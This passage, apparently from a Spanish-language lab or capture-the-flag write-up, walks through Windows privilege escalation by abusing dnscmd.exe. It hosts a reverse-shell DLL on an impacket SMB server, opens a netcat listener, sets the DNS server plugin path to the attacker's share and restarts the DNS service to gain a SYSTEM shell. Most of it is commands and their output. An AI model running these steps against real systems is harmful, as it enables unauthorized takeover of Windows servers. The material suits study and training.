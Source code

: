* Vamos a levantar un **servidor SMB** en donde tengamos nuestra **Reverse Shell**:
```bash
impacket-smbserver smbFolder $(pwd) -smb2support
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 
.
[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
```

* Abrimos una **netcat** utilizando **rlwrap**:
```bash
rlwrap nc -nlvp 443
listening on [any] 443 ...
```

* Desde nuestra sesión de **Evil-WinRM**, usaremos el **binario dnscmd.exe** para interactuar directamente con el **archivo DLL** que tenemos en el **servidor SMB** con tal de pasarlo a la memoria como **SYSTEM**, y usando los parámetros **config y serverlevelplugindll**, le damos la ruta de nuestro servidor:
```batch
*Evil-WinRM* PS C:\Users\Suneo\Desktop> dnscmd.exe /config /serverlevelplugindll \\Tu_IP\smbFolder\revShell.dll
Propiedad del Registro serverlevelplugindll restablecida correctamente.
Comando completado correctamente.
```

| Parámetros | Descripción |
|--------------------------|
| *dnscmd.exe* | Herramienta de línea de comandos para administrar servidores DNS. |
| */config*  | Subcomando que modifica la configuración del servidor. |
| */serverlevelplugindll* | Indica que se quiere establecer una DLL personalizada para ejecutar en el contexto del servicio DNS (dnssvc). |
| *ruta_dll* | La ruta completa hacia el archivo .dll que se quiere cargar como plugin. |

<br>

* Por último, reiniciamos el **servicio DNS** usando el **comando sc.exe**:
```batch
*Evil-WinRM* PS C:\Users\Suneo\Desktop> sc.exe stop dns
.
NOMBRE_SERVICIO: dns
        TIPO               : 10  WIN32_OWN_PROCESS
        ESTADO             : 3  STOP_PENDING
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        CàD_SALIDA_WIN32   : 0  (0x0)
        CàD_SALIDA_SERVICIO: 0  (0x0)
        PUNTO_COMPROB.     : 0x1
        INDICACIàN_INICIO  : 0x7530
*Evil-WinRM* PS C:\Users\Suneo\Desktop> sc.exe start dns
.
NOMBRE_SERVICIO: dns
        TIPO               : 10  WIN32_OWN_PROCESS
        ESTADO             : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        CàD_SALIDA_WIN32   : 0  (0x0)
        CàD_SALIDA_SERVICIO: 0  (0x0)
        PUNTO_COMPROB.     : 0x1
        INDICACIàN_INICIO  : 0x4e20
        PID                : 2044
        MARCAS         :
```
